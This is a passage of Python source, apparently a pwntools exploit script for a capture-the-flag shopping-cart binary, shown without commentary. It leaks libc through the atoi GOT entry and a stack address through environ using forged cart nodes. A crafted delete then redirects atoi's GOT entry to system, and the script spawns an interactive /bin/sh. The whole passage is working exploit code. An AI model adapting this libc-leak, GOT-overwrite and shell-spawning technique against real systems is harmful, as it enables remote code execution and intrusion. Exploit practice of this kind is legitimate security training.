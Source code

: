 ```python
	io.send('y')

def get7174():
	add(1)	
	for i in range(9):
		add(1)
		add(2)
	for i in range(3):
		add(3)
		add(5)
	add(4)

get7174()

checkout()

# leaking libc
cart('y\x00'+p32(elf.got['atoi'])+p32(1)+p32(0x0804B070)+p32(0))

io.recvuntil('27: ')
atoi_addr = u32(io.recv(4))
log.success("atoi_addr = " + hex(atoi_addr))
libc_addr = atoi_addr - elf_libc.symbols['atoi']
log.success("libc_addr = " + hex(libc_addr))
'''
io.recvuntil('28: ')
first_chunk_addr = u32(io.recv(4))
heap_addr = first_chunk_addr - 0x490
log.success("heap_addr = " + hex(heap_addr))
'''

environ = elf_libc.symbols['environ'] + libc_addr
#gdb.attach(io,'b * 0x08048B03')
cart('y\x00'+p32(environ)+p32(1)+p32(0x0804B070)+p32(0))

io.recvuntil('27: ')
stack_addr = u32(io.recv(4))
log.success("stack_addr = " + hex(stack_addr))
ebp = stack_addr - 0x104


delete('27'+p32(0x08049068)+p32(1)+p32(elf.got['atoi']+0x22)+p32(ebp-0x8))

system_addr = libc_addr + elf_libc.symbols['system']

io.recvuntil('> ')
io.send(p32(system_addr)+'||/bin/sh\x00')

#gdb.attach(io,'b * 0x08048B03')
io.interactive()
```
